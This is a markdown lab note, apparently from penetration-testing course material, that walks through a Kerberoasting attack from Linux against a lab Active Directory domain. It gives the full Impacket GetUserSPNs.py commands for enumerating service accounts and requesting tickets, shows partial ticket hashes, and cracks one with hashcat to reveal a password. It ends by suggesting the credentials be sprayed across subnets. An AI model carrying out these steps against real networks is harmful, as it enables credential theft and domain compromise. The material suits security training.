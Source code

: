 # Kerberoasting - From Linux



## Kerberoasting - Performing the Attack

**Depending on your position in a network, this attack can be performed in multiple ways:**

1. From a non-domain joined Linux host using valid domain user credentials.
2. From a domain-joined Linux host as root after retrieving the keytab file.
3. From a domain-joined Windows host authenticated as a domain user.
4. From a domain-joined Windows host with a shell in the context of a domain account.
5. As SYSTEM on a domain-joined Windows host.
6. From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

### Several tools can be utilized to perform the attack:

1. Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
2. A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
3. From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

### Kerberoasting with GetUserSPNs.py
### Listing SPN Accounts with GetUserSPNs.py
    Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
    Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
    
    Password:
    
    ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation
    ---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
    backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>
    sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>
    MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>
    MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>
    MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>
    adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>
    
    
#### Requesting all TGS Tickets
        
     
        ```
        Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
        
        Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
        
        Password:
        ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation
        ---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
        backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>
        sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>
        MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>
        adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>
        
        $krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/BACKUPAGENT*$790ae75fc53b0ace5daeb5795d21b8fe$b6be1ba275e23edd3b7dd3ad4d711c68f9170bac85e722cc3d94c80c5dca<SNIP>
      
        
#### Requesting a Single TGS ticket
        
        Foresty@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
        
        Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation
        
        Password:
        ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation
        ---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>
        $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$4ce5b71188b357b26032321529762c8a$1bdc<SNIP>

    
#### Cracking the Ticket Offline with Hashcat
    
    Foresty@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt hashcat (v6.1.1) starting...
    
    <SNIP>
    
    $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$81f3efb5827a0f<SNIP>:database!
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: Kerberos 5, etype 23, TGS-REP
    Hash.Target......: $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIG...404c1fTime.Started.....: Tue Feb 15 17:45:29 2022, (10 secs)
    Time.Estimated...: Tue Feb 15 17:45:39 2022, (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:   821.3 kH/s (11.88ms) @ Accel:64 Loops:1 Thr:64 Vec:8Recovered........: 1/1 (100.00%) Digests
    Progress.........: 8765440/14344386 (61.11%)
    Rejected.........: 0/8765440 (0.00%)
    Restore.Point....: 8749056/14344386 (60.99%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1Candidates.#1....: davius07 -> darten170Started: Tue Feb 15 17:44:49 2022
    Stopped: Tue Feb 15 17:45:41 2022
  
    
  #### USING THE CREDS
    IF YOU DIDNT KNOW WHAT CREDS ITS INDICATED, YOU CAN USE CRACKMAPEXEC TO PERFORM CHECK ON ALL SUBNETTING IP /24 OR /16
    

